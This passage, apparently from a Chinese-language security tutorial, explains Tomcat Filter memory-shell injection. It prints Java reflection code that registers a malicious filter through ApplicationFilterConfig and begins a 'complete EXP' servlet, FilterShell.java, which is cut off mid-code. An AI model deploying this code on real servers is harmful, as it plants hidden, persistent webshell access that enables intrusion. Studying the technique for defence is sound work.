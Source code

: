 最终将它们都添加到 filterConfig 里面，再放到 web.xml 里面

JAVA

```
Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");  
Constructor<?> declaredConstructor1 = ApplicationFilterConfig.getDeclaredConstructor(Context.class,FilterDef.class);  
declaredConstructor1.setAccessible(true);  
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) declaredConstructor1.newInstance(standardContext,o);  
filterConfigs.put(FilterName,filterConfig);  
response.getWriter().write("Success");
```

> 完整的 EXP 如下所示

**FilterShell.java**

JAVA

```
import org.apache.catalina.Context;  
import org.apache.catalina.core.ApplicationContext;  
import org.apache.catalina.core.ApplicationFilterConfig;  
import org.apache.catalina.core.StandardContext;  
import org.apache.tomcat.util.descriptor.web.FilterDef;  
import org.apache.tomcat.util.descriptor.web.FilterMap;  
  
import javax.servlet.*;  
import javax.servlet.annotation.WebServlet;  
import javax.servlet.http.HttpServlet;  
import javax.servlet.http.HttpServletRequest;  
import javax.servlet.http.HttpServletResponse;  
import java.io.IOException;  
import java.io.InputStream;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
  
import java.util.Map;  
import java.util.Scanner;  
  
@WebServlet("/demoServlet")  
public class FilterShell extends HttpServlet {  
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {  
  
  
//        org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase = (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();  
//        org.apache.catalina.webresources.StandardRoot standardroot = (org.apache.catalina.webresources.StandardRoot) webappClassLoaderBase.getResources();  
//        org.apache.catalina.core.StandardContext standardContext = (StandardContext) standardroot.getContext();  
//该获取StandardContext测试报错  
 Field Configs = null;  
 Map filterConfigs;  
 try {  
            //这里是反射获取ApplicationContext的context，也就是standardContext  
 ServletContext servletContext = request.getSession().getServletContext();  
  
 Field appctx = servletContext.getClass().getDeclaredField("context");  
 appctx.setAccessible(true);  
 ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);  
  
 Field stdctx = applicationContext.getClass().getDeclaredField("context");  
```